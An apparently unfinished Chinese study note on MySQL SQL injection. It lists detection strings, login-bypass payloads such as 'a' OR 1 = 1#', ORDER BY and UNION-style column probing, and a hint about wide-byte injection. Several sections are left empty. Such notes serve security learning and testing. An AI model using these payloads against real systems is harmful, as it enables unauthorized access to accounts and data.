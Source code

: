 # Sql注入笔记

## Mysql

### 注入检测

| 测试字符串   | 变种           |
| ------------ | -------------- |
| '            |                |
| 1' or '1'='1 | 1') or ('1'='1 |
| 1'           | 1')            |
| 1"           | 1")            |

把引号都测一遍，都没报错再加上括号试试，

然后再考虑引号被转义了，用宽字节注入试试。

 

#### 登陆界面

顶真：芝士雪豹



下面为测试字符串。

```
1 OR 1 = 1#
a' OR 1 = 1#
a') OR 1 = 1#
a')) OR 1 = 1#
a" OR 1 = 1#
a") OR 1 = 1#
a")) OR 1 = 1#
```

### 小技巧

#### 测回显列

```mysql
order by 1      order by 4    	看是否报错
select 1,2,3  					看是否报错 或者 回显哪几列
```

#### 转换编码



### mysql 基础

#### 常用函数
